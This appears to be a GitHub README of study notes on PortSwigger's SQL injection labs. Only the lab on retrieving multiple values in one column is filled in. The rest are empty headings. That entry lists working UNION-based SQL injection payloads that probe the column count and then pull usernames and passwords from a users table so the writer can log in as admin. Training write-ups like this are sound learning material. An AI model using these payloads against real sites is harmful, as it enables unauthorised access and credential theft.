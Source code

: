 <div align="center">
  <h1>-------------------------- SQLi LABS 002 ---------------------------</h1>
</div>

# [CheatSheet](https://portswigger.net/web-security/sql-injection/cheat-sheet)

Del it
## Lab 6: SQL injection UNION attack, retrieving multiple values in a single column [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-retrieving-multiple-values-within-a-single-column/sql-injection/union-attacks/lab-retrieve-multiple-values-in-single-column)

- Original Query: `SELECT * FROM products WHERE category = 'Gifts'`
- Modified:
```
'Union+select+Null,NULL-- To determine the No. of columns
'Union+select+Null,'XYZ'-- To determine which column allows TEXT values
'Union+select+Null,username+from+users-- To retrieve Single TEXT value
'Union+select+Null,password+from+users-- To retrieve Single TEXT value
'Union+select+Null,username||password+from+users-- To retrieve Multiple TEXT value
'Union+select+Null,username||'~'||password+from+users-- To retrieve Multiple TEXT value with separator
```
- Login with Admin Creds to Solve the LAb
- ![image](https://github.com/user-attachments/assets/d73f2473-adfa-4ba2-beac-dfc914e9e354)


## Lab 10: Blind SQL injection with conditional responses [Link](https://portswigger.net/web-security/learning-paths/sql-injection/sql-injection-exploiting-blind-sql-injection-by-triggering-conditional-responses/sql-injection/blind/lab-conditional-responses#)







## Lab 11: [Link]()
